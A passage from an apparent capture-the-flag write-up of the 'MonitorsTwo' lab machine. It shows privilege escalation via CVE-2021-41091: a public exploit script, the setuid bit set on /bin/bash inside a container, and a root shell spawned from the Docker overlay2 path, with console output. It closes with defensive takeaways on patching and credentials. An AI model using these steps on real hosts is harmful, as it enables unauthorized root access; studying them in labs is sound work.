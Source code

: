```bash

Administrator
CISO
Monitor Two
Security Team
```

After reading through each of the CVEs and researching them, I found that CVE-2021-41091 made the most sense. Taking the POC found here: [UncleJ4ck/CVE-2021-41091: POC for CVE-2021-41091 (github.com)](https://github.com/UncleJ4ck/CVE-2021-41091) I was able to get root.

```bash
marcus@monitorstwo:/tmp$ bash exp.sh 
[!] Vulnerable to CVE-2021-41091
[!] Now connect to your Docker container that is accessible and obtain root access !
[>] After gaining root access execute this command (chmod u+s /bin/bash)

Did you correctly set the setuid bit on /bin/bash in the Docker container? (yes/no): yes
[!] Available Overlay2 Filesystems:
/var/lib/docker/overlay2/4ec09ecfa6f3a290dc6b247d7f4ff71a398d4f17060cdaf065e8bb83007effec/merged
/var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged

[!] Iterating over the available Overlay2 filesystems !
[?] Checking path: /var/lib/docker/overlay2/4ec09ecfa6f3a290dc6b247d7f4ff71a398d4f17060cdaf065e8bb83007effec/merged
[x] Could not get root access in '/var/lib/docker/overlay2/4ec09ecfa6f3a290dc6b247d7f4ff71a398d4f17060cdaf065e8bb83007effec/merged'

[?] Checking path: /var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged
[!] Rooted !
[>] Current Vulnerable Path: /var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged
[?] If it didn't spawn a shell go to this path and execute './bin/bash -p'

[!] Spawning Shell
bash-5.1# exit
marcus@monitorstwo:/tmp$
```

This didn't work but it does output what to do if the script failed.
```bash
marcus@monitorstwo:/tmp$ /var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged/bin/bash -p -i
bash-5.1# whoami
root
```

## Takeaways

- Ensure Patching is updated
- Don’t store credentials for a database in a world-readable script
- Improve password security requirements
- Do not reuse passwords
- Following the patching recommendations more quickly, the original email was sent on October 18, 2021

Practice Defense-in-depth to reduce how far an attacker can get. 
